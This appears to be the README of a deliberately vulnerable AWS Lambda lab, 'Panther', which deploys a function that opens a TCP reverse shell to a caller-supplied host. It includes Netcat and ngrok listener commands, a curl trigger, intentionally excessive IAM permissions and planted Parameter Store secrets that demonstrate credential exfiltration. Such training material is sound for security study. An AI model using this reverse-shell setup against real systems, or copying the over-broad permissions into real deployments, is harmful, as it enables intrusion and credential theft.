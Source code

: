 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/database/user --value "panther_user" --type SecureString
aws ssm put-parameter --name /panther/database/password --value "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9u4oCZdCBrbm93IGV2aWwgb3IgamVhbG91c3kgb3IgZGlzY29udGVudC4=" --type SecureString
```

## Testing in AWS

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/panther --url-id YOUR_API_GATEWAY_ID --api-key YOUR_API_KEY
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl 'https://YOUR_API_GATEWAY_ID.execute-api.us-east-1.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.

